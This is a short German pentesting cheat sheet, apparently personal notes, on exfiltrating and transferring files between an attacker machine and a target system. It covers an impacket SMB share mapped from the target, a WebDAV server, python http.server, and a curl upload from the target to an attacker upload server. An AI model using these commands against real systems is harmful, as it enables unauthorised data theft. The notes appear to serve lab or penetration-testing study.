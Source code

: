  
 #exfil #transfer
 
---
## Windows

### SMB Share

**Angreifer**
Einen share auf port 445 erstellen. **Zugangsdaten werden ab Smbv2 benötigt!** 

```bash
sudo impacket-smbserver -username pwn -password pwn -debug -smb2support -ip LHOST SHARENAME /local/path/share
```

**Zielsystem**
Ein neues Smbmapping unter `P:` erstellen:

```powershell
New-SmbMapping -LocalPath 'P:' -RemotePath \\RHOST\SHARENAME -username pwn -password pwn
```

Dateien können per `cp path/soruce path/dest` kopiert werden. Mit Zugriff per RDP kann der Share auch über den File Explorer benutzt werden.

### WebDAV

**Angreifer**
Einen WebDAV Server mit anonymous login im momentanen Ordner auf allen Interfaces und Port 80 starten.

```bash
~/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root $(pwd)
```

---

## Universal

### Python simple http.server

Dateien können auf dem System gehostet werden wenn Phyton installiert ist

```bash
# Den momentanen Ordner bereitstellen
python3 -m http.server
# Spezifischen Pfad bereitstellen
python3 -m http.server -d /path/dir
```

### Python upload server

Falls ein bereitstellen der Daten per http nicht funktioniert können diese auch an einen Server hochgeladen werden.

**Angreifer**
Python server starten

```bash
python -m uploadserver -d /path/exfil
```

**Zielsystem**
Dateien per curl an den upload Server posten

```bash
curl -X POST http://127.0.0.1:8000/upload -F 'files=@multiple-example-1.txt' -F 'files=@multiple-example-2.txt'
```

## Todo

- [ ] Datentransfer
- [x] SMB Share
- [?] WebDAV
	- [?] WebDAV: Zielsystem fehlt
- [x] Python simple http.server ✅ 2024-07-26
- [?] Python uploadserver
	- [?] Python uploadserver: Powershell Beispiel